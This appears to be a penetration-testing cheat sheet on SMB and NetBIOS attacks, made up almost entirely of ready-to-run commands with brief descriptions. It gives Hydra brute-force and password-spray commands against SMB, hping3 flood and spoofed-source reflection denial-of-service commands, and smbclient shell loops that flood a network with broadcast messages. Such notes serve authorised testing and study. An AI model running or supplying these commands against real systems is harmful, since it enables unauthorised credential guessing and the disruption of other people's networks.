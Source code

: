 ## Exploits and Attacks

### Password Attacks

#### Password Brute Force

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 138 -l <username> -P <password_list>
    ```
* **Description:** Test a single username against multiple passwords.

#### Password Spray

*   **Tool:** \[\[Hydra Cheat Sheet]]

    ```bash
    hydra smb://<target_ip> -s 138 -l <username_list> -P <password>
    ```
* **Description:** Test a multiple usernames against a single password.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip_1> -p <target_port> --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
* **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

#### NetBIOS Broadcast Storm

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    while true; do echo "storm" | smbclient -M <broadcast_address>; done
    ```

    ```bash
    for i in {1..1000}; do echo "storm" | smbclient -M <broadcast_address>; done
    ```
* **Description:** Floods the network with broadcast messages, potentially causing a denial of service or overwhelming network resources.
